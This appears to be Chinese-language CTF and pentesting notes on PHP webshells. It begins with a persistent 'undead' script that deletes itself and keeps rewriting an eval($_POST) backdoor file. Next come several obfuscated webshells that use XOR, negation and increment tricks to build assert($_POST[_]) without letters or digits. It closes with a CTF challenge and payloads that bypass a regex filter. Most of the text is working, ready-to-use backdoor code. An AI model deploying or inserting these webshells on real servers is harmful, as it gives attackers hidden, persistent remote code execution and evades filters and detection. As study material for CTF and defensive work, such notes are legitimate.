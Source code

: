 ### 四.不死马
 ```php
<?php
   set_time_limit(0);  //括号里边的数字是执行时间，如果为零说明永久执行直到程序结束，如果为大于零的数字，则不管程序是否执行完成，到了设定的秒数，程序结束。
   ignore_user_abort(1);  //可以实现当客户端关闭后仍然可以执行PHP代码，可保持PHP进程一直在执行，可实现所谓的计划任务功能与持续进程，只需要开启执行脚本，除非 apache等服务器重启或有脚本有输出，该PHP脚本将一直处于执行的状态
   unlink(__FILE__);  
   while(1){  
       file_put_contents('webshell.php','<?php @eval($_POST["password"]);?>');  
       sleep(5);  
  }
```
### 五　php 不用字母，数字和下划线写 shell
[php 不用字母，数字和下划线写 shell](https://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652848502&idx=1&sn=f6c55593d9f68d0d7f2d136ff330cabc&chksm=bd593dbb8a2eb4adbfe5dfd2c57339ed01d7394db2df456294cc0cac606632f39d08762153d7&mpshare=1&scene=23&srcid=0813pfK9QdVbfq9wKygb2cdD#rd)
[一些不包含数字和字母的 webshell](https://www.leavesongs.com/penetration/webshell-without-alphanum.html)
[php webshell](https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html)
#### 在 PHP 中两个变量进行异或时，会先将字符串转换成 ASCII 值，再将 ASCII 值转换成二进制再进行异或，异或完又将结果从二进制转换成ASCII值，再转换成字符串。
```php
<?php
   @$_++; // $_ = 1
   $__=("#"^"|"); // $__ = _
   $__.=("."^"~"); // _P
   $__.=("/"^"`"); // _PO
   $__.=("|"^"/"); // _POS
   $__.=("{"^"/"); // _POST
   ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
甚至可以将上面的代码合并为一行，从而使程序的可读性更差:
#$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
?>
```
```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

#### PHP 中取反 (~) 的概念
![ALT text](23.png)
##### "和" 的第三个字节的值为 140[0x8c]，取反的值为 -141负数用十六进制表示，通常用的是补码的方式表示。负数的补码是它本身的值每位求反,最后再加一。141 的 16 进制为 0xff73，php  中 chr(0xff73)==115，115 就是 s 的 ASCII 值。因此
#### 不用数字构造出数字
##### 利用了 PHP 弱类型特性，true 的值为 1，故 true+true==2
![ALT text](24.png)
```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});#assert

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});#_POST

$_=$$_____;
$____($_[$__]);#assert($_POST['a']);
# ${~"\xa0\xb8\xba\xab"}=$_GET
```
#### php 递增／递减运算符
##### 在处理字符运算时，php沿袭perl的习惯，而非c类如：在perl中　$A='Z',$a++将变为‘ＡＡ’，而Ｃ中，a='Z';a++ 将把a变为'[')字符变量只能递曾，不能递减，并且只支持(a-z)(A-Z)'a'++ => 'b'，'b'++ => 'c'，我们只要能拿到一个变量，其值为 a，通过自增操作即可获得 a-z 中所有字符。数组（Array）的第一个字母就是大写 A，而且第 4 个字母是小写 a。在 PHP 中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为 Array。再取这个字符串的第一个字母，就可以获得 'A'。
![ALT text](25.png)
```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
##### 1.PHP 允许动态函数执行
```php

<?php
function getflag()
{
	echo 123;
}
$a="getflag";
$a();
?>

```
#### 2. ${$a} $a变量是可以执行的 ${"`{{{"^"?<>/"}['+'] =
### 实列ctf
```php
<?php
include'flag.php';
if(isset($_GET['code'])){
   $code=$_GET['code'];
   if(strlen($code)>40){
       die("Long.");
  }
   if(preg_match("/[A-Za-z0-9]+/",$code)){ #如果为preg_match("/[A-Za-z0-9_]+/",$code)
       die("NO.");
  }
   @eval($code);
}else{
   highlight_file(__FILE__);
}
//$hint = "php function getFlag() to get flag";
?>
```
```
payload1:?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
#$_GET[_]($_GET[__]);
payload2:${"`{{{"^"?<>/"}['+']();&+=getFlag
#$_GET['+']()
payload3:code=$啊=(%27%5D%40%5C%60%40%40%5D%27^%27%3A%25%28%26%2C%21%3A%27);$啊();













#利用动态函数
```
